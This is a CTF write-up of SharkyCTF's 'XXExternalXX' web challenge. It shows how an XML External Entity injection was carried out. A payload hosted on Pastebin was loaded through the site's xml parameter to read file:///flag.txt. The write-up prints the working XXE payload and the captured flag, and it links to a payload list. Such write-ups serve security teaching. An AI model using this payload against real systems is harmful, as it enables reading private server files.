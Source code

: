 <p align="center">
  <img src="../sharky_ctf_logo.png">
</p>

# XXExternalXX

![team](https://img.shields.io/static/v1?label=Team&message=Hack%27togone&color=E22244&style=for-the-badge)
![CTF](https://img.shields.io/static/v1?label=CTF%20name&message=SharkyCTF&color=blue&style=for-the-badge)
![CTF category](https://img.shields.io/static/v1?label=Catégorie&message=Web&color=orange&style=for-the-badge)

## Statement

<p align="center">
  <img src="./files/XXexternal_statement.png" width="500">
</p>

## Introduction 

This challenge is about an Xml External Entity (xxe).

## Challenge resolution

We start by opening the website, the index shows `Welcome to this website. To check all the news we uploaded, please go to the "news" section`.

We can also see a menu with 2 buttons `Home` and `Show Stored data`. I suppose that the second one is the one i'm interested in.

By clicking on it, i arrive on the following page : 

<p align="center">
  <img src="./files/XXexternal_website.png" width="500">
</p>

at the URl : `http://xxexternalxx.sharkyctf.xyz/?xml=data.xml`

As the challenge's name being XXExternalXX, i know that i'll have to make a xxe injection.

The goal is to inject the xxe via an external link in the url. I then created a [Pastebin](https://pastebin.com/5c3Daj3j) with this content :

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [ <!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<note>
<data>&xxe;</data>
</note>
```

and include it `http://xxexternalxx.sharkyctf.xyz/?xml=https://pastebin.com/raw/5c3Daj3j` to get the flag !

It was a basic XXE injection, the only "difficult" point was to find the <data> tag. Otherwise, nothing is displayed.

## Flag 

```
shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a} 
```

Flagged by [Ch4llengR](https://twitter.com/Ch4llengR)

## Resources 

* [OWASP - XML External Entity](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
* [XXE payload list](https://github.com/payloadbox/xxe-injection-payload-list)


![Hack'togone emblem](../hack_togone.svg)